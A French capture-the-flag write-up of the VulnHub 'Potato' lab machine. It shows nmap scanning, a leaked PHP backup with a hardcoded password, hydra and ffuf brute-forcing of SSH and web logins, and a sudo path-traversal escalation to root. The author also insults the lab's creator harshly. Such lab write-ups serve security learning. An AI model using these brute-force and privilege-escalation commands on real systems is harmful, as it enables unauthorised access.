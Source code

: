 # Solution du CTF Potato de VulnHub

[Potato](https://vulnhub.com/entry/potato-1,529/) est un CTF proposé sur VulnHub. Il est nul. Fuyez pauvres fous !

```bash
$ sudo nmap -p- -T5 -sCV 192.168.56.63
[sudo] Mot de passe de root : 
Starting Nmap 7.93 ( https://nmap.org )
Nmap scan report for 192.168.56.63
Host is up (0.00011s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef240eabd2b316b44b2e27c05f48798b (RSA)
|   256 f2d8353f4959858507e6a20e657a8c4b (ECDSA)
|_  256 0b2389c3c026d5645e93b7baf5147f3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

Je m'empresse de télécharger de fichier `bak` que Nmap a détecté :

```php
<html>
<head></head>
<body>

<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>


  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>
```

Le fichier à la racine du site ne semble pas correspondre mais une petite énumération met en lumière la présence du dossier `/admin` dont l'index correspond au script.

Il y a aussi un dossier `/potato` mais ce dernier est vide.

Je suis tenté de prendre le backup au pied de la lettre mais les identifiants sur le formulaire de login sont rejetés.

Définir le cookie comme indiqué dans le code ne fonctionne pas non plus :

```bash
$ curl -D- -H "Cookie: pass=potato;" http://192.168.56.63/admin/dashboard.php -e "http://192.168.56.63/admin/index.php?login=1"
HTTP/1.1 302 Found
Date: Fri, 18 Nov 2022 16:03:46 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: index.php
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

On est redirigé vers la page d'accueil :(

Une énumération web avec les wordlists *raft* de *fuzzdb* ne retournent rien mis à part le dossier /admin/logs.

Ce dernier contient trois fichiers texte avec les contenus suivant :

```
Operation: password change
Date: January 03, 2020 / 11:25 a.m.
User: admin
Status: OK


Operation: reboot the server
Date: January 09, 2020 / 9:55 a.m.
User: admin
Status: OK 


Operation: password change
Date: August 2, 2020 / 9:25 p.m.
User: admin
Status: OK
```

Le dernier fichier est plus gros car il contient pas mal de writespaces inutiles en fin de lignes.

Comme le script PHP indique de changer le mot de passe régulièrement je tente de me mettre dans la tête d'un utilisateur lambda et teste des mots de passe tel que `potato1`, `summer2020`, etc, sans succès.

J'ai procédé à une attaque brute force à l'aide de ffuf :

```bash
$ ffuf -u "http://192.168.56.63/admin/index.php?login=1" -w wordlists/rockyou.txt -X POST -d "username=admin&password=FUZZ" -H "Content-type: application/x-www-form-urlencoded" -fs 109
```

J'ai laissé tomber après une bonne demi heure de scan.

On est dans un cas typique où l'auteur du CTF a mis en place une solution qui lui semblait clair pour lui... mais pour lui seul.

Du coup après recherche sur le web il s'avère que non seulement le mot de passe attendu ne concerne pas le script web mais plutôt SSH, l'utilisateur n'est pas `admin` et le mot de passe n'est pas une variante de `potato` !

Du coup il fallait faire cela :

```bash
$ ./hydra -l webadmin -P rockyou.txt ssh://192.168.56.63
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344381 login tries (l:1/p:14344381), ~896524 tries per task
[DATA] attacking ssh://192.168.56.63:22/
[22][ssh] host: 192.168.56.63   login: webadmin   password: dragon
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
```

Wow ! Les parents de l'auteur de ce CTF auraient du le noyer à sa naissance !

Une fois qu'on a obtenu notre shell on peut aller voir ce fameux script `dashboard.php` et il contient des vulnérabilités qu'il aurait pu être intéressant d'exploiter mais tout est bloqué par ces premières lignes :

```php
<?php

if($_COOKIE['pass']!=="serdesfsefhijosefjtfgyuhjiosefdfthgyjh"){
  header('Location: index.php');
  exit();
}
?>
```

Je pouvais faire tourner rockyou longtemps dessus ! A croire que l'auteur a volontairement saboté son travail.

La suite du CTF a sans doute plus de logique mais n'a absolutment rien d'intéressant :

```bash
webadmin@serv:/var/www/html/admin$ sudo -l
[sudo] password for webadmin: 
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
webadmin@serv:/notes$ sudo /bin/nice /notes/../bin/dash
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# cat root.txt
bGljb3JuZSB1bmlqYW1iaXN0ZSBxdWkgZnVpdCBhdSBib3V0IGTigJl1biBkb3VibGUgYXJjLWVuLWNpZWwuIA==
# echo bGljb3JuZSB1bmlqYW1iaXN0ZSBxdWkgZnVpdCBhdSBib3V0IGTigJl1biBkb3VibGUgYXJjLWVuLWNpZWwuIA== | base64 -d
licorne unijambiste qui fuit au bout d’un double arc-en-ciel.
```

Heureusement pour tous les fans de CTF l'auteur ne semble pas avoir réitéré depuis :D

*Publié le 18 novembre 2022*
